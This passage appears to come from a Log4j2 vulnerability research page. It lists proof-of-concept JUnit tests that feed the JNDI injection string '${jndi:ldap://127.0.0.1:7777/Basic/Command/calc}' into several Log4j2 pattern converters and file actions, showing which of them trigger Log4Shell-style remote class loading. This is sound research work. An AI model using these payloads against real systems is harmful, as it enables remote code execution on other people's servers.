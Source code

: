 **LiteralPatternConverter.format()**

```
    @Test
    public void formatLiteralPatternConverterTest() {
        Configuration configuration = new DefaultConfiguration();
        LiteralPatternConverter literalConverter = new LiteralPatternConverter(configuration, "${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}", false);
        LogEvent logEvent = new MutableLogEvent(new StringBuilder("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}"), null);
        literalConverter.format(logEvent, new StringBuilder("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}"));
    }
```

**PatternProcessor.formatFileName()**

```
 @Test
    public void formatFileNamePatternProcessor() {
        Configuration configuration = new DefaultConfiguration();
        String pattern = "${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}";
        PatternProcessor processor = new PatternProcessor(pattern);
        processor.formatFileName(configuration.getStrSubstitutor(), new StringBuilder("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}"), true, null);
    }
```

## Pocs for Action Tree ##

**DeleteAction.execute()**

```
@Test
    public void executeDeleteActionTest() {
        DeleteAction action = DeleteAction.createDeleteAction("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}", false, 1, true, null , new PathCondition[]{
                IfFileName.createNameCondition(String.format("%s-*.log.zip", "appname"), null, IfAccumulatedFileCount.createFileCountCondition(1))
        }, null, new DefaultConfiguration());
    }
```

**PosixViewAttributeAction.execute()**
```
  @Test
    public void executePosixViewAttributeAction() throws IOException {
     PosixViewAttributeAction action = PosixViewAttributeAction.newBuilder().withPathConditions(new PathCondition[]{
            IfFileName.createNameCondition(String.format("%s-*.log.zip", "appname"), null, IfAccumulatedFileCount.createFileCountCondition(1))
        }).withFilePermissionsString("rwxrwxrwx").withBasePath("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}").withConfiguration(new DefaultConfiguration()).build();
        action.execute();
    }
```
